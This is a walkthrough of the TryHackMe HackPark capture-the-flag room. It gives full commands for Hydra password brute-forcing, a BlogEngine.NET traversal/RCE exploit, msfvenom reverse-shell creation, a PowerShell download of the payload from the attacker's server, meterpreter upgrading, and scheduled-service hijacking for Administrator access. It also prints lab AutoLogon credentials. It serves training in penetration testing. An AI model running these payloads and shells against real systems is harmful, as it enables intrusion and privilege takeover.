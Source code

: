 ```yaml
---
layout: md
title: TryHackMe HackPark room
description: 
tags: ['security', 'tryhackme']
categories: ['linux', 'security', 'thm']
---
```


{% include project-headers.html %}

Includes:
  - Windows
  - Hydra 
    - brute forcing credentials
  - Web application exploits
    - File inclusion
    - Directory traversal
  - WinPEAS
  - Metasploit
    - Stabilizing shells
  - Privilege Escalation

We can browse to the server via the internet to find a blog called `BlogEngine`. From here we can find a login page & can use hydra to try and exploit this.

#### Hydra

Try to login using random credentials & capture the body of the post request and note and changes on the page that would indicate a failed login.

Using this information we can create a quick bash script to run a bruteforce hydra attack against the web form - using the post body as `$form` and replacing the username and password with `^USER^` & `^PASS^` for hydra to replace these with the values we give it to run through. And use 'Login failed' as our failure condition.

```bash
#!/bin/bash

form="__VIEWSTATE=<redacted-for-clarity>&__EVENTVALIDATION=<redacted-for-clarity>&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in"

hydra -vV -l admin -P /usr/share/wordlists/rockyou.txt \
10.10.186.90 http-post-form \
"/Account/login.aspx?ReturnURL=/admin/:$form:F=Login failed"
```

After about 30s we find the password and can now login.

#### Exploiting `BlogEngine`

Using `searchsploit` to find exploits:
```bash
$> searchsploit blogengine

BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution | aspx/webapps/46353.cs
```

Mirror the exploit file:
```
$> searchsploit -m aspx/webapps/46353.cs
```

This file has a detailed overview at the top with how to go about using the exploit to gain remote access. The key details are:
- File must be uploaded as PostView.ascx
- Change the address and port in the script to the lhost and lport
- Upload via '/admin/app/editor/editpost.cshtml'
- Navigate to '/?theme=../../App_Data/files' to run the file

Running the file will give a reverse shell to our listener.

#### Enumerating

The shell we have is quite unstable so I want to stabilize it by creating a meterpreter shell via metasploit.

Craft our reverse shell using `msfvenom`:
```bash
$> msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o msfvenom_reverse_shell.exe
```

Using our reverse shell we can grab the file from our server (using `python3 -m http.server`):
```powershell
cmd> powershell.exe -c "wget 'http://<ip>:8000/msfvenom_reverse_shell.exe' -OutFile 'C:\Users\Public\msfvenom_reverse_shell.exe'"
```

Create a listener on metasploit:
```bash
msf6> use exploit/multi/handler 
msf6> set payload windows/x64/shell/reverse_tcp
msf6> set lhost <ip>
msf6> set lport <port>
msf6> exploit
```

And the we can run our reverse shell:
```cmd
cmd> C:\Users\Public\msfvenom_reverse_shell.exe
```
& background the session `ctrl+z`

Upgrading to meterpreter:
```bash
msf6> use post/multi/manage/shell_to_meterpreter
msf6> sessions -l
msf6> set session <reverse-shell-session-id>
msf6> set lhost 10.9.7.128
msf6> set lport 4433
msf6> exploit
msf6> session -i <meterpreter-session-id>

meterpreter>
```
* I did notice the meterpreter/PS shell is still slightly unstable and likes to die from time to time. Keeping the original session around as a backup was handy.

Uploading and running `winPEAS`:
```
meterpreter> upload winPEASx86.exe
meterpreter> load powershell
meterpreter> powershell_shell

PS> .\winPEASx86.exe > winpeas.txt
PS> exit
PS> meterpreter > download winpeas.txt
```

Read/search the results:
```bash
more winpeas.txt
cat winpeas.txt | grep -i "<search>"
```
`more` is nice for this as it will use the shell syntax highlighting/colours, making it easier to read. The file is often extremely long and hard to read using `cat` or similar.  

This highlights a possibly vulnerable service:
```
=================================================================================================

WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
File Permissions: Everyone [WriteData/CreateFiles]
Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])
System Scheduler Service Wrapper
=================================================================================================
```

It also finds some AutoLogon credentials:
```
  [+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultUserName               :  administrator
    DefaultPassword               :  4q6XvFES7Fdxs
```

#### Privilege escalation

The hackpark room wants us to exploit the service, so I will ignore the AutoLogon credentials.

Looking through the logs in `C:\Program Files (x86)\SystemScheduler` we can see its calling `Message.exe` as administrator. We can use our `msfvenom_reverse_shell.exe` we created earlier to gain a more stable reverse shell to replace `Message.exe`, and on the next scheduler cycle it will be run as an `Administrator`. 

Restart the listener we had earlier & wait for the next cycle (seems to be once every 1-2 minutes). This will give us a reverse shell as the `Administrator` account. From here we can gather the flags on both desktops and we've already ran `winPEAS` and gathered the other required information. 
